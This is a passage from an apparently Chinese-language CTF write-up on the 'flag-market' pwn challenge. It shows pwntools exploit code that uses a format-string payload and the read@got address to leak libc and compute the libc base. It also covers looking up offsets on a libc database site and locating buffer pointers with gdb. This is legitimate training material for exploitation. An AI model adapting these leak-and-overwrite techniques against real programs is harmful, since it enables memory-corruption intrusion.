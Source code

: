 ```python

# for i in range(1,50):
#     payload += f'%{i}$p-'.encode()

p.sendlineafter(b'opened user.log, please report:',payload)

p.sendlineafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'2'.ljust(8,b'\x00') + p64(0x404050))

p.recvline()
leak = u64(p.recvuntil(b'#')[:-1].ljust(8,b'\x00'))
success("read_addr:" + hex(leak))

libc_base = leak - 0x11ba80
```

其中，`p64(0x404050)`是read@got的地址：

```assembly
.got.plt:0000000000404050 off_404050      dq offset sub_4010A0    ; DATA XREF: my_read+4↑r
```

`0x11ba80`，这个偏移量，是`read`在libc.so.6中的偏移量，为什么选择这个？

在上述Poc的输出中，会输出泄露的`read`的真实地址：

```bash
[+] read_addr:0x78a9a251ba80
```

拿这个地址去[网站](https://libc.blukat.me/)上搜索一下

[![image](/img/flag-market/3622178-20251023215019295-212912469.png)](https://img2024.cnblogs.com/blog/3622178/202510/3622178-20251023215019295-212912469.png)

接着问AI：

[![image](/img/flag-market/3622178-20251023215116586-1271645686.png)](https://img2024.cnblogs.com/blog/3622178/202510/3622178-20251023215116586-1271645686.png)

然后在网站上点击该库文件即可看到偏移量：

[![image](/img/flag-market/3622178-20251023215157409-635275790.png)](https://img2024.cnblogs.com/blog/3622178/202510/3622178-20251023215157409-635275790.png)

### 2、找指向缓冲区的指针

我们通过gdb的find命令，就可以很容易找到在libc中指向缓冲区的指针

为了程序的顺利执行，我们需要在我们的虚拟器的根目录下创建一个flag文件。原因很简单，我们之前分析过，程序会打开根目录下的flag文件，如果没有找到，就会报错。

我这已经准备好了：

```bash
(pwn-env) zyf@zhengyifeng:/mnt/c/Users/14363/Downloads/ctf-downloads/flag-market/bin$ cat /flag
flag{0ec285cb-c1b3-49ff-820b-8075a639bc1e}
```
